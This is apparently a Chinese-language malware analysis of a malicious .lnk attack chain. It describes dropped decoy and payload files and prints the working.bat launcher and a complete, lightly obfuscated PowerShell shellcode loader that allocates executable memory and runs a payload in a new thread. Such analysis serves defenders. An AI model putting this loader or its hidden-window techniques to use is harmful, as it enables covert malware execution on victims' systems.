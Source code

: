 -   以隐藏属性打开cmd窗口，指定路径递归寻找powershell.exe脚本执行嵌入的C#代码。
-   在动态链接库 User32.dll 中调用 FindWindow 和 ShowWindow 函数，过调用 FindWindow 函数查找名为"powershell.exe"的窗口，并通过 ShowWindow 函数隐藏该窗口。
-   获取当前目录路径，如果路径包含"System32"或"Program Files"，则将一个参数目录路径设置为"%temp%"。
-   用地址偏移的方法在当前 lnk 文件定位载荷，新建数组存储并释放成文件。
    1.  在 lnk 文件相同路径释放'【lnk 同名】.hwp'文件，并且执行。
    2.  在%public%路径释放'public.dat'文件。
    3.  在%temp%路径释放'temp.dat'文件。
    4.  在%temp%路径释放'working.bat'文件。
-   执行"working.bat"文件。
-   关闭.lnk 文件。
-   删除原始.lnk 文件。

## shellcode 加载准备阶段

初始载荷释放并且执行了"working.bat"，这个“.bat”脚本就是后续载荷执行的起点了。"working.bat"内容如下，功能为创建隐藏窗口 powershell 进程，读取“temp.dat”文本文件并放入内存中执行。

```plain
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden 
"$stringPath=$env:temp+'\'+'temp.dat';
$stringByte = Get-Content -path $stringPath -encoding byte;
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$scriptBlock = [scriptblock]::Create($string);
&$scriptBlock;
"
```

“temp.dat”脚本内容如下，此脚本也是一个典型的 shellcode 加载和执行的过程，读取 public.dat 文件中的二进制数据，然后在内存中分配空间，将数据写入该空间，最后创建一个线程来执行这段内存中的代码。

详细功能描述写成注释在代码中。

```plain
## 构建 public.dat 文件的完整路径，并读取 public.dat 文件的二进制内容。
$exePath=$env:public+'\'+'public.dat';
$exeFile = Get-Content -path $exePath -encoding byte;
 [Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
## windowsAPI 函数的声明，并通过 Add-Type 添加到 PowerShell 环境中
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
##  获取 public.dat 文件的字节数。
$byteCount = $exeFile.Length;
##  在内存中分配空间
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);
$old = 0;
##  修改内存区域的保护属性，将其设置为可执行。
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);
## 将 public.dat 文件的内容写入分配的内存空间中
 for($i = 0;
$i -lt $byteCount;
$i++) { [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
 };
 ## 创建一个线程，将分配的内存区域的地址作为线程的入口点。
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);
```